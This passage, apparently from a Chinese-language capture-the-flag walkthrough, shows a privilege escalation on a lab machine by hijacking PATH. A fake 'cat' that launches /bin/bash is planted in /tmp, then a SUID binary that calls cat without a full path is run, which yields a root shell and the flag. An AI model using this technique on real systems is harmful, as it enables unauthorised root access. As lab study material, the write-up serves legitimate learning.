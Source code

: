 ![image-20231108161811753](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202311081618084.png)

利用思路：

替换cat，因为并没有指定cat的绝对路径，system()函数在调用时是从环境变量里读取，所以我们可以伪造一个cat文件，然后加上环境变量就可以实现提权。

cat文件内容为`/bin/bash`，修改环境变量：

```shell
dexter@debian:~$ echo "/bin/bash" > /tmp/cat
dexter@debian:~$ cat /tmp/cat
/bin/bash
dexter@debian:~$ chmod +x /tmp/cat
dexter@debian:~$ echo $PATH
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
dexter@debian:~$ export PATH=/tmp:$PATH
dexter@debian:~$ echo $PATH
/tmp:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```

把包含伪造的cat文件的/tmp路径放在了PATH环境变量的最前面，这样在执行到`system("cat /root/system.info")`的时候，就会先去/tmp目录下调用cat。

直接执行`/opt/get_access`即可获得root的shell：

```shell
dexter@debian:~$ /opt/get_access
root@debian:~# id
uid=0(root) gid=0(root) groups=0(root),1001(dexter)
root@debian:~# ls
note.txt
root@debian:~# cat /root/root.txt
root@debian:~# more /root/root.txt
ICA{Next_Generation_Self_Renewable_Genetics}
root@debian:~# /bin/cat /root/root.txt
ICA{Next_Generation_Self_Renewable_Genetics}
```

# Notes

SUID的利用方式中，替换掉cat之后，cat命令就使用不了，除非使用绝对路径。


